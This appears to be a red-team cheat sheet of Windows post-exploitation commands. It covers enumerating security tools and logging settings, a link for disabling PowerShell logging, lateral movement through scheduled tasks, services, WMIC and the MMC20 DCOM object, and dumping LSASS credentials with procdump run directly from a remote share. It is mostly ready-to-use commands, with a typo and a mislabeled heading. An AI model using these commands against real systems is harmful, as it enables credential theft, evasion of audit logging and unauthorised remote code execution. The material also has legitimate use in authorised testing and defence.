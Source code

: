 ## Enumeration:
Looking for
	• Security tools (AV/EDR) and configs 
	• Windows Security Settings  
	• Log forwarders 
	• PowerShell/.NET versions (next slide) 
	• Audit Policies
Get OS Version
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"z
	(powershell) ls "$env:windir\system32\ntoskrnl.exe" | select VersionInfo | fl 
	ver
Get Patch Level
	wmic qfe list brief
All in one tools
	execute-assembly /root/Tools/GhostPack/Seatbelt.exe all
Get non standard services installed that are not signed by microsoft
	wmic product get name,version
Query local or remote RDP sessions
	qwinsta /SERVER:test.lab.local

## Active Directory Enumeration
ADExplorer.exe can export configuration with -snapshot <DC> <localfile>

## PowerShell:
Avaliable powershell engines:
	Key: HKLM\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine • * = Wildcard 
		• Value: PowerShellVersion
Avaliable CLR versions: 
	CLR 2.0 installed: %WINDIR%\Microsoft.Net\Framework\v2.0.50727\System.dll 
	CLR 4.0 installed: %WINDIR%\Microsoft.Net\Framework\v4.0.30319\System.dll
Powershell logging checks
	HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription 
		• EnableTranscripting == 1 
		• OutputDirectory
	HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging 
		• EnableModuleLogging == 1
	HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging 
		• EnableScriptBlockLogging == 1 
		• EnableScriptBlockInvocationLogging == 1
Disable Powershell logging
		https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs
		
		
###PSPs
Enumerate Registered PSPs with WMIC
	wmic /node:primary.testlab.local /namespace:\\root\securitycenter2 path antivirusproduct
Interact with defender from run
	windowsdefender://

###Remote Enumeration
get-process -computername test.lab.local
wmic.exe /node:test.lab.local process get name, processid
tasklist.exe /s test.lab.local
qwinsta /SERVER:test.lab.local

###Lateral Movement
Scheduled task (TCP 135 + Dynamic RPC highport) 
	schtasks /create /s <IP> /tn <name> /u <user> /sc <frequency> /p <password> /st <time> /sd <date> <command> 
Services (TCP 445 + named pipes)
	sc \\IP create Service binPath= “command”
WMIC (TCP 135 + Dynamic RPC high port) 
	wmic /node:target.domain process call create "C:\Windows\System32\cmd.exe /c payload.exe”
PsExec
MMC20.APPLICATION COM object
	$COM = [activator]::CreateInstance([type]::GetTypeFromProgID(" MMC20.APPLICATION", "192.168.52.100")) 
	$COM.Document.ActiveView.ExecuteShellCommand("C:\ Windows\System32\calc.exe", $Null, $Null, "7") 
	For more information: 	• https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20application-com-object/ 
							• https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
Remember the Double hop problem: When you execute code with WMI, you’ll receive a token with a networklogon type, meaning the credentials are not actually sent to the host, so you'll have to steal/make a token or migrate to another process to continue 


###Local account enumeration
	Safteykatz
	
###Dump Process
	procdump.exe/procdump64.exe
		procdump64.exe -accepteula -ma lsass.exe C:\temp\debug.dmp
	procdump.exe/procdump64.exe live (without sysinternals on disk)
		net use http://live.sysinternals.com
		\\live.sysinternals.com\DavWWWRoot\procdump.exe -accepteula -ma lsass.exe C:\windows\temp\debug.dmp
		net use /DELETE \\live.sysinternals.com\DavWWWRoot
	From TaskManager
		TaskManager -> Right Click Process -> Create Dump File

###Packet Capture
	Windows netsh (Win7/2008R2+)
		netsh trace start capture=yes IPv4.Address=X.X.X.X
		netsh trace stop
		convert etl to pcap
			$s = New-PefTraceSession -Path “C:\output\path\spec\OutFile.Cap” -SaveOnStop
			$s | Add-PefMessageProvider -Provider “C:\input\path\spec\Input.etl”
			$s | Start-PefTraceSession
			
###Windows Event Logs
	 Security EID 4624 - Interactive logons indicate normal logon hours
	 System EID 12,13 - Shutdown/startup/sleep frequency
	 Security EID 4624 - Monitor for inbound NTLM attempts 
		● Relay opportunities 
		● Challenge/response sniffing 
	Enumeration Methods:
		seatbelt.exe
		
###.NET
	Powershell to determine if a file is .net (throws an error if not .net)
		[Reflection.AssemblyName]::GetAssemblyName("C:\Path\To\File.exe")

		
		
		
		
		
		
